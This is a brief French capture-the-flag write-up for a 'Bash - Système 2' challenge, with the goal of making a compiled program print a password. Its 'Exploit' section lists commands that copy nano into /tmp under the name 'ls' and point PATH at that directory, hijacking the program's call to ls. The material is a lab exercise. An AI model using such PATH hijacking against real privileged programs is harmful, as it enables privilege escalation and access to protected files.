 # Challenge Bash - Système 2

## Todo :

Exécuter le code compilé pour afficher le mot de passe 


### Note :

  - alias et export ne fonctionnent pas dans ce cas
  - commande utilise des arguments 

## Exploit :

mkdir -pv /tmp/exploit

cp -avr $(which nano) /tmp/exploit/ls

export PATH=/tmp/exploit

./ch12
